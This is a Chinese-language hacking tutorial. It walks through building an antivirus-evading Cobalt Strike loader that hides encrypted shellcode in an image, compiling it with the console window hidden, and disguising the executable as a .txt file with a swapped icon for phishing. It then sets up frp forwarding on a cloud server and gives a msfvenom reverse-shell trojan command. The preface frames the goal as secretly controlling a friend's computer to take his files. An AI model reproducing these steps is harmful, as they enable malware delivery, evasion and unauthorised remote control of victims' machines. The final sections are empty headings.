 # 云服务器做代理钓鱼进军内网

Author：badbird

Time：2021-5--不详

---

### 0x01 前言

​		从很久之前因为IPV4快不够分了，所以我们家庭宽带都不给分配公网IP了，正常百度查本机IP查到的都是当前区域的某个节点的IP，而不是我们自己直接连接到互联网上的公网IP。所以，当我们想通过🐎控制朋友的电脑搜刮他的资源时就会发现🐎的回连IP填了自己百度的本机IP，（甚至有的小白会填入自己的局域网IP192.168.x.x，这种只适用于局域网，比如控制你隔壁桌的小伙伴，并不能进军到公网）并不能连接到自己的电脑上，原因就是上面讲的那样。

​		本文旨在一站到底式教会大家如何利用云服务器做自己的“公网IP”，让🐎向有公网IP的云服务器建立连接，再通过端口转发连接到自己的电脑上。文中涉及到的手法并不唯一，也不一定考虑的全面，但能保证是真实有效的。

---

操作环境：

- 一台Centos7云服务器
- kali2020，装有CS
- Win10靶机

---

### 0x02 自己的云服务器

​		我买的是某云的轻量级应用服务器，性价比算差不多的一年不到100块钱。

![image-20210507102158327](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507102158327.png)

云服务器还可以做一些别的事情比如搭网站，自己的博客，私人网盘等等。买来的云服务器都会有一个公网IP，在控制台可以看到

![image-20210507102615198](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507102615198.png)

接下来可以进去玩耍玩耍，或者接着往下做，如何配置代理在0x05

### 0x03 CS免杀

​		为什么是CS免杀呢？因为用过大佬现成的CS免杀处理的脚本：https://github.com/Gality369/CS-Loader。如果会MSF免杀的话，就不用再CS联动MSF了，直接上MSF就行，因为MSF在内网渗透方面是很好的选择，有利于下一步操作。接下来按照Readme的步骤做一遍，我选择的是go版本（哪个版本都无所谓，编程语言只是一种工具，用哪个版本要确保有该语言的环境就行。）

```go
git clone https://github.com/Gality369/CS-Loader.git
```

克隆这个项目到kali本地，cd进入该目录：
![image-20210507103838713](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507103838713.png)

第一步：将一张不要太大的图片放入同一文件夹下

确实是不要太大，百度了好几张图片，找到一个能用的（形象⑧）：

![ma](C:\Users\King\Desktop\ma.jpg)

第二步，将生成的shellcode填入generator.py的shellcode中，生成携带加密混淆后的shellcode的图片。

首先CS建立一个监听，点击这个耳机按钮：

![image-20210507105303633](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507105303633.png)

Name随便，其他的默认即可，端口不要冲突了就行。

![image-20210507105219218](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507105219218.png)

然后生成shellcode：

![image-20210507105031175](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507105031175.png)

选择刚才建立的http的监听，勾选x64：

![image-20210507114406867](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507114406867.png)

点击生成，选择一个保存的位置（哪里都行），用文本查看器打开这个.c文件：

![image-20210507114441577](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507114441577.png)

双引号内的就是shellcode。

将shellcode填入generator.py的shellcode变量中，就复制粘贴就行：

![image-20210507114510200](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507114510200.png)

保存，用**python2**执行

```
python generator YourRC4key ImageName
```

YourRC4key任意即可：

![image-20210507110440884](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507110440884.png)

第三步，将图片上传至https://imgtu.com/，复制图片链接：

![image-20210507114747836](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507114747836.png)

第四步，修改CS-Loader.go，在响应位置填入图片url和之前的RC4key:

![image-20210507114838570](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507114838570.png)

第五步，编译CS-Loader.go生成exe文件（如果编译失败百度一下go的交叉编译）：

```shell
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-H windowsgui" CS-Loader.go

#大概解释一下，前面的选项指名要生成64位架构的windows系统上的程序，-ldflags选项使应用程序运行时不显示黑窗口。
```

![image-20210507121148999](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507121148999.png)

生成了exe，先来测试一下是否可用：

![image-20210507121134786](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507121134786.png)

莫有问题，，**（绕的过360和火绒却被Windows Defender查出来？）**

### 0x04 钓鱼手法-伪装

- ico替换，使用resource_hacker工具，win10所有ico：

  链接：https://pan.baidu.com/s/1QzGt2b0rdtsXDyv7Qv-XGA 
  提取码：o0au 

  替换效果如下，.txt是文件名，windows默认不显示后缀名，实际上它还是个隐藏了.exe后缀的可执行程序。

![image-20210507133241042](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210507133241042.png)

- 网站挂马

### 0x05 frp内网穿透（重点）

**原理：**

![image-20210516144339607](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210516144339607.png)

制作一个回连云服务器（proxy）的🐎，这样确保了proxy和target的通信。

attacker和proxy通过frp建立起tcp连接。

利用frp在proxy上进行端口转发，将proxy与target建立的通信端口接收的信息转发给attacker的某个监听端口。

#### **[以msf木马为例]**

- https://github.com/fatedier/frp/releases到这里下载frp，客户端（你运行msf的主机）和服务端（云主机）都下载同一版本的。

我下载的是frp_0.36.2_linux_amd64.tar.gz

```shell
解压命令：
tar -zxvf frp_0.36.2_linux_amd64.tar.gz
```

然后开始进入解压好的文件夹内，开始配置吧：
**服务端 frps.ini**：

```shell
[common]
bind_port = 7000			#服务段frp服务绑定端口
token = abc123				#令牌码，和客户端要一致

#management
dashboard_port = 7500		#frp管理服务的端口
dashboard_user = admin		#管理用户名
dashboard_pwd = admin		#管理密码
enable_prometheus = true	#启用普罗米修斯运维服务，go语言相关监控，可以关闭

#log
log_file = /var/log/frps.log	#日志路径
log_level = info				#日志等级
log_max_days = 3

#port_white
allow_ports = 7000,7500			#白名单，上边配置了哪个端口这里要加上
```

**客户端 frpc.ini**：

```shell
[common]
server_addr = 39.106.83.5		#云服务器的公网IP
server_port = 7000				#服务端frp服务绑定的端口
token = abc123					#令牌码，和服务端要一致

[ssh]	#[]括起来为每个程序的配置，这个是为ssh配置的，举个例子。
type = tcp
local_ip = x.x.x.x
local_port = 22
remote_port = 1234

[msf]	#为msf木马回连配置的代理
type = tcp						#tcp连接，handler的payload也记得设置成reverse_tcp
local_ip = kali的局域网ip
local_port = 6666				#msfconsole的handler中设置的lport
remote_port = 6767				#msfvenom生成木马时写的监听端口
```

**msfvenom生成木马**

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=服务器IP lport=frpc.ini配置的remote_port -f exe -o test.exe
```

#### **[以CS木马为例]**

**因为可以做免杀，所以还是生成shellcode**

区别是监听器的设置。要根据代理的原理来配置监听：🐎做的事只是连接proxy服务器，所以生成shellcode时一定要注意监听器的ip-port

**还可以把服务器当作teamserver**

CS诞生本就是为了团队协作渗透的，用云服务器做teamserver，然后各attacker端启动CS时连接teamserver这样还省去了配置frp。

### 0x06 CS联动MSF

### 0x07 进军内网

